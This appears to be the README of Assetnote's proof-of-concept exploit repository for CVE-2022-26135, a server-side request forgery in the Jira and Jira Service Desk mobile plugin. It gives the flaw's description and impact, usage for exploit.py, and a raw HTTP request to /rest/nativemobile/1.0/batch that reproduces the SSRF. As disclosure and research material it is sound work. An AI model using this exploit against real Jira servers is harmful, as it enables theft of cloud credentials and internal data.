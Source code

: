 # CVE-2022-26135 - Full-Read Server Side Request Forgery in Mobile Plugin for Jira Data Center and Server

## About Assetnote

Assetnote automatically maps your external assets and monitors them for changes and security issues to help prevent serious breaches.

This research was performed by Assetnote's Security Research team.

You can read more about our product and our team at [https://assetnote.io](https://assetnote.io).

## Blog Post

The blog post detailing the steps taken for the discovery of this vulnerability can be found [here](https://blog.assetnote.io/2022/06/26/exploiting-ssrf-in-jira/).

## Description

Jira Core & Jira Service Desk are vulnerable to server-side request forgery after authenticating. In some cases, it is possible to leverage open sign ups in Jira Core or Jira Service Desk to exploit this server-side request forgery flaw without having known credentials.

## Impact

The SSRF vulnerability allows attackers to send HTTP requests using any HTTP method, headers and body to arbitrary URLs. When Jira is deployed on a cloud environment, an attacker can leverage this exploit chain to obtain cloud credentials or other sensitive information through the metadata IP address.

## Affected Software

As per the advisory from Atlassian, please see the following knowledge base article to confirm if you are running an affected software version: [https://confluence.atlassian.com/jira/jira-server-security-advisory-29nd-june-2022-1142430667.html](https://confluence.atlassian.com/jira/jira-server-security-advisory-29nd-june-2022-1142430667.html)

# Usage Instructions

```
pip3 install -r requirements.txt
```

and then you can use the exploit using:

```
python3 exploit.py
```

Help:

```
usage: exploit.py [-h] --target TARGET --ssrf SSRF --mode MODE [--software SOFTWARE] [--username USERNAME] [--email EMAIL] [--password PASSWORD]

optional arguments:
  -h, --help           show this help message and exit
  --target TARGET      i.e. http://re.local:8090
  --ssrf SSRF          i.e. example.com (no protocol pls)
  --mode MODE          i.e. manual or automatic - manual mode you need to provide user auth info
  --software SOFTWARE  i.e. jira or jsd - only needed for manual mode
  --username USERNAME  i.e. admin - only needed for manual jira mode
  --email EMAIL        i.e. admin@example.com - only needed for manual jira service desk mode
  --password PASSWORD  i.e. testing123 - only needed for manual mode
```

If you already have credentials for Jira / Jira Service Desk, then set the `--mode` to `manual` and the `--software` argument to either `jira` or `jsd`.

# HTTP Request

The following HTTP request can be used to reproduce this issue, once authenticated to the Jira instance:

```http
POST /rest/nativemobile/1.0/batch HTTP/2
Host: issues.example.com
Cookie: JSESSIONID=44C6A24A15A1128CE78586A0FA1B1662; seraph.rememberme.cookie=818752%3Acc12c66e2f048b9d50eff8548800262587b3e9b1; atlassian.xsrf.token=AES2-GIY1-7JLS-HNZJ_db57d0893ec4d2e2f81c51c1a8984bde993b7445_lin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Origin: https://issues.example.com
Referer: https://issues.example.com/plugins/servlet/desk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 63

{"requests":[{"method":"GET","location":"@example.com"}]}
```